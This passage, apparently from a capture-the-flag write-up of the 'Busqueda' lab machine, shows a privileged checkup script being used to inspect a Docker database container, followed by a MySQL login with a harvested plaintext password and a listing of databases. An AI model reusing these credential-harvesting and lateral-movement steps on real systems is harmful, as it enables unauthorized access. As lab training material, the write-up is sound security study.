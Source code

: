 

The environment section has the connection info for the DB, and there's
a password.

The last option is `full-checkup`, but it just errors:



    svc@busqueda:~$ sudo python3 /opt/scripts/system-checkup.py full-checkup
    Something went wrong



#### DB

I'll get the IP of the database by running the `system-checkup.py`
script on the `mysql_db` container:



    svc@busqueda:~$ sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .NetworkSettings.Networks}}' mysql_db | jq .
    {
      "docker_gitea": {
        "IPAMConfig": null,
        "Links": null,
        "Aliases": [
          "f84a6b33fb5a",
          "db"
        ],
        "NetworkID": "cbf2c5ce8e95a3b760af27c64eb2b7cdaa71a45b2e35e6e03e2091fc14160227",
        "EndpointID": "4d843a366dbaece32f09158e28a9f41d0a94cf2892455102e2800dcc445e9561",
        "Gateway": "172.19.0.1",
        "IPAddress": "172.19.0.3",
        "IPPrefixLen": 16,
        "IPv6Gateway": "",
        "GlobalIPv6Address": "",
        "GlobalIPv6PrefixLen": 0,
        "MacAddress": "02:42:ac:13:00:03",
        "DriverOpts": null
      }
    }



I'll connect to the DB:



    svc@busqueda:~$ mysql -h 172.19.0.3 -u gitea -pyuiu1hoiu4i5ho1uh gitea
    ...[snip]...
    mysql>



`gitea` is the only interesting db:



    mysql> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | gitea              |
    | information_schema |
    | performance_schema |
    +--------------------+
    3 rows in set (0.00 sec)
